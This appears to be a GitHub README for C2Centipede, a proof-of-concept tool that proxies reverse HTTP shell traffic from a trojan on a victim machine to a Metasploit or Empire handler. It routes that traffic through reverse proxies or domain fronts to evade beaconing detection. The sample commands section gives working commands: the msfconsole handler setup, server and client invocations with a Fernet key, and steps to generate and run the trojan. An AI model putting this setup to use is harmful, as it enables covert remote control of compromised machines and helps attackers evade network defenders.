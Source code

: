 # C2Centipede (alpha)

## What is C2Centipede?
C2Centipede is a Proof of Concept proxy for reverse HTTP shell tools (like metasploit or empire) to evade beaconing detection by 1)reducing the beaconing 2)route the C2 communications from the trojan through different servers, currently using FRP reverse proxies or multiple Domain Fronts.

## How does it work?
There are two basic components of C2Centipede, client and server. The client is executed in the victim machine along the trojan (e.g. reverse http meterpreter) and receives the trojan's requests. The client will be in charge of faking answers to the trojan to keep it alive and choosing the route the trojan beacon should follow. The original HTTP request from the trojan is wrapped and encrypted using a Fernet symmetric key.

The server component receives the requests from the c2centipede client, decrypts them and sends them to the handler (Metasploit http handler, empire, etc), sending the answer back to the c2centipede client, along with it's own commands that affect the behaviour of the client. The operator can modify the behaviour of the client on the fly, for example by decreasing or increasing the number of fake answers to the trojan, or adding new routes the client can use to communicate with the server. The control data for C2Centipede is piggybacked on the trojans requests, so there is no additional "noise" in the network.

Additionally there is a GUI for the operator.


## Sample commands

### On the server
The server uses python3

1) Run your handler /msfconsole -x "use exploit/multi/handler;set payload python/meterpreter_reverse_http;set exitonsession false; set lport 8888; set lhost 0.0.0.0; run -j
You can use any reverse HTTP payload, not just python.


2) python3 c2c_server.py -p 9093 -d 127.0.0.1:8888 -a lalala:lelele -b -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=

-p port to listen to
-d destination of the packages (This would be your MSF or Empire handler address)
-a authentication for the c2centipede server, the operator needs to know these to send commands to the c2centipede server.
-b beep (for debugging, you can listen to the beacons of your trojan)
-f Fernet key, symmetric shared with the client. (if not specified it will generate a new one)


3)Set your RFP proxies and/or CDNs.


### On the victim machine
The client uses python2 because _reasons_

1) python2 c2c_client.py -p 2233 -b 127.0.0.1 -s 127.0.0.1:9093 -f xkJSFO2DKQyYxj9F6Q4XCXIviiFuxNzZjsEfNc9NgoM=
-p port where the client listens to
-b bind to this interface
-s server addresses (direct connection, frp proxy or domain fronted host), you can add as many as you wish (or use -t to use a textfile with newline separated server addresses)
-f fernet symmetric key as specified on the server component.


2)Generate your meterpreter, empire or other trojan pointing to localhost and the port specified on the -p argument (in this case 2233)

3)Run the trojan
